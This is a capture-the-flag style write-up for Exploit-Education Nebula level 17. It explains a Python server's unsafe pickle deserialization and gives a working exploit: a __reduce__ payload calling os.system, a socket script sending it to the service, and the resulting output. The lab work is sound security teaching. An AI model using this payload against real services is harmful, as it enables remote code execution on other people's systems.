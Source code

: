 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 17"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 17](https://exploit.education/nebula/level-17/)

## Challenge
There is a python script listening on port `10007` that contains a vulnerability.

To do this level, log in as the `level17` account with the password `level17`. Files for this level can be found in `/home/flag17`.

## Vulnerability
```python
def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")
```
This program uses python `pickle` module. [Pickle Module](https://docs.python.org/2/library/pickle.html)
>The pickle module implements a fundamental, but powerful algorithm for serializing and de-serializing a Python object >structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and 
>“unpickling” is the inverse operation, whereby a byte stream is converted back into an object hierarchy.

We can see a warning in the same page.
>Warning:The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received >from an untrusted or unauthenticated source.  

So it is unsafe to `unpicke` untrusted data. We can see that in `server` function ,the program is `unpickiling` user provided data without any checks.  

You can read more about this vulnerability [here](https://blog.nelhage.com/2011/03/exploiting-pickle/).

So the vulnerability is that we can run our own code since python is `unpickiling` our data.
## Solution
We can write a python class that runs a script we control.
```python
import os
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
```
The `__reduce__` function returns a `tuple` representing the command to be run. This `tuple` can be easily `pickled`.[Additional information on _reduce_.](https://docs.python.org/3/library/pickle.html#object.__reduce__)  
Essentially what this script does is, it returns the pickled format of the command we have to run. Here we are running the script `/tmp/run.sh`. The `pickled` result can used as the input for `flag17` program.
```bash
level17@nebula:~$ nano /tmp/run.sh
level17@nebula:~$ chmod 777 /tmp/run.sh
level17@nebula:~$ cat /tmp/run.sh
getflag>/tmp/out
```
I am running `geflag` and writing the output to a file named `/tmp/out`. I also wrote a complete python script to send the `pickled` data.
```python
#!/usr/bin/python

import pickle
import os
import socket
class Exploit(object):
  def __reduce__(self):
    return (os.system,(('/tmp/run.sh'),))
obj=Exploit()
line=pickle.dumps(obj)
HOST = "127.0.0.1"
PORT = 10007
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
s.connect((HOST,PORT))
s.recv(1024)
s.sendall(line)
print line
```
Lets run the script.
```bash
level17@nebula:~$ python pickle2
Accepted connection from 127.0.0.1:58290
cposix
system
p0
(S'/tmp/run.sh'
p1
tp2
Rp3
.
```
Check the output in `/tmp/out`
```bash
level17@nebula:~$ cat /tmp/out
You have successfully executed getflag on a target account
```
### Solved!